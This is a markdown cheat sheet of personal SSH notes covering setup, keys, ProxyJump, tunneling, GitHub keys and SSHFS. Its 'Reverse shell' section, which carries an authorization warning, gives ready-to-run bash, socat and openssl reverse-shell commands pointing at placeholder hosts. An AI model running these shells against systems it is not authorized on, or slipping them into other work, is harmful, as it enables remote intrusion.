




# SSH

---

## Enable SSH Server (Debian)

```bash
sudo apt install openssh-server
sudo systemctl enable ssh
sudo systemctl start ssh
sudo ufw allow ssh
sudo ufw enable
```

## Enable SSH Server (Red Hat)
```bash
sudo dnf install -y openssh-server
sudo systemctl enable sshd
sudo systemctl start sshd
sudo systemctl status sshd
sudo firewall-cmd --permanent --add-service=ssh
sudo firewall-cmd --reload
# sudo firewall-cmd --list-all # Just to comfirm
```

---

## SSH Agent
List ssh-agent keys
`ssh-add -l`

Add SSH Key to the ssh-agent
`ssh-add </path/to/your/private/key>`

Remove Key from the ssh-agent
`ssh-add -d </path/to/your/private/key>`

Start the ssh-agent
`eval "$(ssh-agent -s)"`

Restart the ssh-agent
`eval "$(ssh-agent -k)"  # Kill the agent`
`eval "$(ssh-agent)"     # Start a fresh instance`

---

## Keys
Generate new key
`ssh-keygen -t rsa -b 4096 -C <email@domain.com>` 

Generate new key using ed25519 (best practice) `ssh-keygen -t ed25519 -C <your_email@example.com>`

Copy key to remote
`ssh-copy-id -i $<key_path> <user>@<hostname/ip>`

Use a specific key during connection
`ssh -o "IdentitiesOnly=yes" -i <key_path> -p <port> <user><hostname/ip>`

Use **only** password authentication (if is is allowed)
`ssh -o PubkeyAuthentication=no user>@<hostname/ip>`

---

## Proxy Jump
SSH proxy jump
`ssh -J <user-proxy>@<domain/ip-proxy> <user-target>@<domai/ip-target>`

SSh proxy jump on user configuration (~/.ssh/config)
```
Host <proxy-host-name>
  HostName <IP-address>
  User <user-name>                  # Not important
  Port <specify-port-number-here>   # Not important
  IdentityFile ~/.ssh/<file1>       # Not important

### The Remote Host
Host <private-server-name>
  HostName <IP-address>             # Not important
  User <user-name>                  # Not important
  Port <specify-port-number-here>   # Not important
  IdentityFile ~/.ssh/<file2>       # Not important
  ProxyJump <proxy-host-name>
```

---

## Client Configuration
Check SSH Configuration
`ssh -G <hostname>`

Global configuration filepath
`/etc/ssh/ssh_config`

### SSH client `Include`
In order to include in the `~/.ssh/config` another configuration use the `Include` keyword.

E.g.

```
# In ~/.ssh/config
Include servers/config

Host ...
```

Then in the servers/config
```
Host <server-alias>
  HostName <IP-address-or-domain>
  User <user-name>                  # Not important
  Port <port-number>                # Not important
  IdentityFile ~/.ssh/<file>        # Not important

  IdentitiesOnly yes        # Optional
  IdentityAgent none        # Optional
  AddKeysToAgent no         # Optional
```

---

## Server Configuration
Location `/etc/ssh/sshd_config`

### Enhance server security

#### 1. Change port to another one
```
Port <port_num>
```

#### 2. Disable both password and keyboard-interactive
```
PasswordAuthentication no
ChallengeResponseAuthentication no
UsePAM no
```

#### 3. Disable root connection
```
PermitRootLogin no
```

#### Restart sshd
```
sudo systemctl restart ssh
```

#### Use a firewall
Use a firewall to allow only to specific ports connections.

---

## Other connections
Remote Command Execution
`ssh <user>@<hostname/ip> "<command>"`

---

## SSH Tunneling

### 1. Local Port Forwarding 
Forward a port from the remote machine to your local machine.

Access remote resources (like http server), that for some reason you do not have access (maybe due to firewall rules, etc.) from a remote location to your machine.

```bash
ssh -L [local_ip-or-domain:]<local_port>:<remote_host-ip-or-domain>:<remote_port> -N <user>@<hostname/ip>
```

\* Use -N if you don’t need a shell session
\* [local_ip-or-domain:] is optional when the local machine is the same as the ssh client.



**Example**

```
ssh -L 80:192.168.5.3:8080 -N user@48.265.45.288
```



**Verify**
```
curl http://localhost:80
```

### 2. Remote Port Forwarding
Forward a port from your local machine to a remote machine.

Exactly the reverse logic as Local port forwarding.

```bash
ssh -R [remote_ip-or-domain:]<remote_port>:<local_host-ip-or-domain>:<local_port> -N <user>@<hostname/ip>
``` 

\* Use -N if you don’t need a shell session
\* [remote_ip-or-domain:] is optional when the remote machine is the same as the one we ssh to.



**Example**

```
ssh -R 8080:192.168.1.25:80 user@48.265.45.288
```



### 3. Dynamic Forwarding

Create an SSH SOCKS proxy for dynamic port forwarding

```bash
ssh -D <local_port> <user>@<hostname>
```

---

## Use SSH key on Github

1. Run `ssh-keygen -t ed25519 -C "your_email@example.com"`
2. `cat ~/.ssh/<keyname>.pub` and copy your key
3. Paste it as is on your github account as an authentication key
4. Add on your `~/.ssh/config` this:
```
Host github.com
  HostName github.com
  User git
  IdentityFile ~/.ssh/<keyname>
  IdentitiesOnly yes
  IdentityAgent none
  AddKeysToAgent no
```
5. Evaluate that it is working by running `ssh -T git@github.com`
6. For security run `chmod 400 ~/.ssh/<keyname>`
7. If you have repositories that have been cloned using https, do the following
```
# Inspect remotes
git remote -v

# Update
git remote set-url origin git@github.com:Username/repository-name.git

# Inspect remotes again
```

---

## Reverse shell 

> [!WARNING]
> Use reverse shell only on systems that you have explicit authorization to access.

### 1. Using Bash
**Listener** (the machine that wants to establish the ssh connection)
```bash
nc -lvnp <port>
```

From the **target** machine run one of the commands based on the use case.

1. Terminal
```bash
while true; do bash -c "/bin/bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" ; sleep 5 ; done
```

### 2. Socat [Preferred]
Reverse Shell with socat (recommended for stability). Socat is very reliable and supports full TTY and encryption (TLS) if needed.

Installation
```
sudo apt install socat
```

On the **listener**:
```
socat file:`tty`,raw,echo=0 tcp-listen:<port>,reuseaddr
```

On the **target** (your device):
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<your-ip>:<port>
```

#### How to add encryption:
**Listener**
```bash
# Create certificate
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out cert.pem
cat key.pem cert.pem > fullchain.pem

# Start listener
socat openssl-listen:<port>,reuseaddr,fork,cert=cert.pem,key=key.pem,cafile=cert.pem,verify=0 file:`tty`,raw,echo=0
```

**Target**
```bash
socat openssl-connect:<your-ip>:<port>,verify=0 exec:'bash -li',pty,stderr,setsid,sigint,sane
```

### 4. OpenSSL
A bit more complex but adds encryption.

On the **listener**:
```
openssl req -new -x509 -days 365 -nodes -out cert.pem -keyout cert.pem
openssl s_server -quiet -key cert.pem -cert cert.pem -port <port>
```

On the **target**:
```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ip>:<port> > /tmp/s
```

---

## SSHFS

**SSHFS** stands for **SSH Filesystem** and it lets you mount a remote filesystem over **SSH** on your local machine as if it were a local folder.

It’s part of **FUSE** **(Filesystem in Userspace)**, meaning you don't need kernel-level access, just a user with SSH access to the remote system.

With **SSHFS**, you can browse, open, and edit files on a remote server securely over SSH as if they were on your local computer.

Key Features

- Secure (uses SSH encryption).
- Lightweight and easy to set up.
- No need for Samba, NFS, or FTP servers.
- Read/write access (if permissions allow).
- Great for development, backups, or remote file management.

### Installation

Debian
```bash
sudo apt install sshfs
```

Red Hat
```bash
sudo dnf install sshfs
```

### Mount
```bash
sshfs <user>@<ip-or-domain>:</remote/path> </local/mountpoint>
```

#### If there are errors
##### Step 1.
Make sure that fuse group exists and that your user is part of it
```
sudo groupadd fuse
sudo usermod -aG fuse $USER
```

##### Step 2.
Update configuration
Edit `sudo vim /etc/fuse.conf` and uncomment `user_allow_other` option.

##### Step 3
Try using `allow_other` option.
```bash
sshfs -o allow_other,uid=$(id -u),gid=$(id -g) \
  <user>@<ip-or-domain>:</remote/path> </local/mountpoint>
```

\* See this [url](https://askubuntu.com/questions/123215/sshfs-is-mounting-filesystems-as-another-user)

##### Step 4
Trubleshoot

```bash
sshfs -o allow_other,debug,sshfs_debug,loglevel=debug,uid=$(id -u),gid=$(id -g) \
  <user>@<ip-or-domain>:</remote/path> </local/mountpoint>
```

### Verify 
```bash
mount
```

### Unmount
```bash
umount </local/mountpoint>
# or preferred for this 
fusermount -u </local/mountpoint>
```